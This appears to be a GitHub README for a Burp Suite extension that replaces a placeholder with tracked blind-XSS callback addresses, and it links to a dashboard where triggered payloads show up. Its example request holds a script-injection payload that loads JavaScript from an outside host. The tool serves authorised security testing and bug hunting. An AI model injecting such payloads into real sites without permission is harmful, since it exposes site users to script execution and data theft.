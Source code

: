 # What is the this tool for?

This tool can be used to generate relevant XSS addresses that can be used to track HTTP requests. By using this tool, all your injection attempts will be tracked and the reports you generate will include the full HTTP request in the final output.

# Minimum Burp Suite Version

2023.1

Because of the use of Burp Extensions API - Montoya

# Setup

You can download the jar directly and load it into burpsuite.

After loading the plugin, a new tab will be created, as shown below.

<img width="1048" alt="image" src="https://user-images.githubusercontent.com/16237562/215692824-f1174bbc-d00d-4d7e-b5b0-dd171aae7ac9.png">

Just fill in the form and click Login.

`replace` is the javascript address that needs to be replaced.

For example (`replace` is `test123`)

```
GET /concat-us HTTP/1.1
Host: example.com
aaa: test123

content=testhello<script src="test123"></script>
```

Finally the extension will automatically update the request

```
GET /concat-us HTTP/1.1
Host: example.com
aaa: https://request-id-domain.xss.cl

content=testhello<script src="https://request-id-domain.xss.cl"></script>
```

# Where to view the request that triggered the payload

https://xss.bughunter.app/dashboard/trigger

<img width="1330" alt="image" src="https://user-images.githubusercontent.com/16237562/215695198-fd570376-050a-43dc-b4f4-4a604335c1f0.png">

